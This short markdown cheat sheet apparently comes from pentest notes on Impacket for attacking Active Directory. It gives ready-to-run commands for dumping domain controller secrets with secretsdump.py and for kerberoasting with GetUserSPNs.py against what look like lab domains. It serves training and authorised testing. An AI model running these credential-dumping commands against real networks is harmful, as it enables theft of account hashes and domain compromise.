 # Impacket

Impacket is a suit of tool used to pentest Active Directories


## Useful pieces of code
- GetNPUsers.py
- GetUserSPNs.py
- secretDump.py


## Enum for additionnal information w/ secretdump.py
Requirements : Credentials
```bash
secretsdump.py -just-dc backup@spookysec.local
```	

## Kerberoast
This following command line will dump Kerberos hashes and return any kerberoastable users.  
Requirements : Credentials
```bash
GetUserSPNs.py controller.local/"username":"password" -dc-ip <IP> -request
```